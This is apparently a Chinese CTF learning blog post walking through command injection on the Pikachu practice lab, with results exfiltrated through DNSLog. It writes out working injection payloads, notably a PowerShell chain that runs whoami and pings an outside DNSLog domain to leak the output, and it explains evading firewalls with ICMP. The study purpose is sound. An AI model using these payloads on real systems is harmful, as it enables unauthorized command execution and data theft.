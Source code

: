 ```yaml
---
title: 20250114CTF学习笔记40
date: 2025-01-14
tags:
 - CTF
 - CTFLearn
categories:
   - 命理学 Numerology
isShowComments: true
publish: true




















---
```


<Boxx/>

从0开始学习CTF，了解CTF基本规则、方法，这是开始打卡学习的第56天

今日内容：基础入门-反弹SHELL&带外查询&正反向连接&防火墙出入站&文件下载

[[toc]]

- 小迪安全视频地址【[🔗传送门]([https://www.bilibili.com/video/BV123yAYMEwb/)】

<!-- more -->

# 第24章：基础入门-反弹SHELL&带外查询&正反向连接&防火墙出入站&文件下载

## 防火墙出入站

要控制对方，无非有两种方式，一是主动找他控制，另一种是对面把权限给你。看哪种方式可达。

### 实际案例3：数据不回显-ICMP带外查询Dnslog

在之前的情况下，我们在拼接命令后提交是能回显的，如下图所示：

![image-20250114210150069](/img/ctfLearn/image-20250114210150069.png)

我们修改一下源码，让他不回显，源码的路径如下`C:\Tools\phpstudy_pro\WWW\pikachu\vul\rce\rce_ping.php`

![image-20250114210529887](/img/ctfLearn/image-20250114210529887.png)

我们将这行代码注释掉，`echo`是输出的意思。php代码的注释用的是`//`

此时不管我们是输入`127.0.0.1|whoami`还是`127.0.0.1`，都是没有回显的：

![image-20250114210820722](/img/ctfLearn/image-20250114210820722.png)

#### **总结：**

已知有漏洞，但是数据不回显：

1. 我们可以尝试反弹Shell，将权限直接给出来
2. 我们也可以带外查询，让他主动把结果给出来

#### **原理：**

找个DNSLog工具，每次ping该地址就会展示`DNS Query Record`即DNS查询记录、IP地址、创建时间，如下图所示：

![image-20250114214614505](/img/ctfLearn/image-20250114214614505.png)

此时我们在ping命令的域名上加上子域名，并且给子域名加上反引号，让反引号内部先执行，ping成功后即可得到结果：

![image-20250114221541697](/img/ctfLearn/image-20250114221541697.png)

 但是，需要注意的是我们用的是Linux来进行的ping命令，而不是Windows，要知道在Windows中，cmd命令里是没有反引号先执行这条规定的，我们只能另辟蹊径，这里用到PowerShell来执行即可：

![image-20250114223734005](/img/ctfLearn/image-20250114223734005.png)

```
C:\Users\19854>powershell
Windows PowerShell
版权所有 (C) Microsoft Corporation。保留所有权利。

尝试新的跨平台 PowerShell https://aka.ms/pscore6

PS C:\Users\19854> $x=whoami
PS C:\Users\19854> echo $x
laptop-kl37dc4i\19854
PS C:\Users\19854> $x=whoami;$y='.northglory.eyes.sh';
PS C:\Users\19854> echo $x;
laptop-kl37dc4i\19854
PS C:\Users\19854> echo $y;
.northglory.eyes.sh
PS C:\Users\19854> echo $x+$y
laptop-kl37dc4i\19854+.northglory.eyes.sh
PS C:\Users\19854> $z=$x+$y;
PS C:\Users\19854> echo $z;
laptop-kl37dc4i\19854.northglory.eyes.sh
PS C:\Users\19854> ping $z;
Ping 请求找不到主机 laptop-kl37dc4i\19854.northglory.eyes.sh。请检查该名称，然后重试。
PS C:\Users\19854> $x1=$x.replace('\','xxx');
PS C:\Users\19854> echo $x1;
laptop-kl37dc4ixxx19854
PS C:\Users\19854> $z=$x1+$y;
PS C:\Users\19854> echo $z;
laptop-kl37dc4ixxx19854.northglory.eyes.sh
PS C:\Users\19854> ping $z;

正在 Ping laptop-kl37dc4ixxx19854.northglory.eyes.sh [172.104.163.125] 具有 32 字节的数据:
来自 172.104.163.125 的回复: 字节=32 时间=107ms TTL=47
来自 172.104.163.125 的回复: 字节=32 时间=125ms TTL=47

172.104.163.125 的 Ping 统计信息:
    数据包: 已发送 = 2，已接收 = 2，丢失 = 0 (0% 丢失)，
往返行程的估计时间(以毫秒为单位):
    最短 = 107ms，最长 = 125ms，平均 = 116ms
Control-C
PS C:\Users\19854>
```

一开始ping不通是因为有反斜杠，我们用xxx替换了反斜杠，然后重新ping了一下，此时查看DNSLog页面，发现已经有了这条记录：

![image-20250114223929523](/img/ctfLearn/image-20250114223929523.png)

我们整理一下刚才PowerShell的语句：

```powershell
powershell $x=whoami;$x=$x.Replace('\','xxx');$y='.northglory.eyes.sh';$z=$x+$y;ping $z;
```

#### **为什么要这样写：**

1. 因为CMD里无法执行`whoami`，在ping命令中，无法完成反引号先执行，无法解析whoami

2. 用到PowerShell变量赋值，把执行结果给变量

3. 又由于结果里带符号"\\"，导致ping无法执行，所以要替换反引号为xxx

#### **步骤：**

1. 首先要考虑pikachu的这个ping漏洞是否能执行命令，我们可以输入以下内容尝试发送：

   ```
   127.0.0.1|ping northglory.eyes.io
   ```

2. 看到DNSLog平台上有回显，说明是能执行命令且能ping通的。

3. 但由于是Windows系统的CMD是没有反引号先执行这条规则的，所以需要用到PowerShell的变量赋值，让`$x=whoami`，这句是核心，后边拼接`.northglory.eyes.s`

4. 最后发现ping的时候，我们执行完`whoami`的结果有个反斜杠，导致ping命令不能执行了，这种情况只要把$x执行完`whoami`后再替换一下反斜杠即可。

#### **实践：**

用127.0.0.1和刚才的PowerShell命令做拼接，然后放到pikachu的漏洞中去实验，具体内容如下：

```powershell
127.0.0.1|powershell $x=whoami;$x=$x.Replace('\','xxx');$y='.northglory.eyes.sh';$z=$x+$y;ping $z;
```

如下图，我们在pikachu中点击提交以后，成功ping到了DNSlog平台，记录中展示了`whoami`的结果

![image-20250114230040633](/img/ctfLearn/image-20250114230040633.png)

#### **注意：**

仔细阅读刚才的PowerShell代码，要理解代码的执行顺序，先是`$x=whoami`的时候，就已经成功执行了，然后才做的替换，所以DNSLog有了后边我们的结果。

同理，我们不只是可以执行`whoami`，还有其他很多命令可以执行，比如`dir`是查看目录。

#### **思考：**

曾经遇到过Ping的CTF题目，但当时环境没有互联网，只能Ping本地，也就是127.0.0.1之类的地址，可能这种就不能用以上的方法了。只能用管道符这种最基础的命令拼接的形式，用不到反弹Shell和DNSLog带外回显了。

#### **网络协议：**

用反弹Shell需要考虑防火墙的问题，但Ping的解析，也就是利用PowerShell和DNSlog做带外回显能绕过防火墙

**原因：**ping命令走的ICMP协议，而防火墙禁用端口是控制TCP/UDP协议，也就是控制传输层，但是ICMP是网络层，是传输层下层，不受防火墙影响。所以可以使用ping命令将数据带出。

![image-20250114232219279](/img/ctfLearn/image-20250114232219279.png)


> **课外知识：**
>
> 在连接互联网的情况下，不管Windows系统还是Linux系统都可以用以下命令查询互联网IP地址
>
> ```shell
> curl ifconfig.me
> ```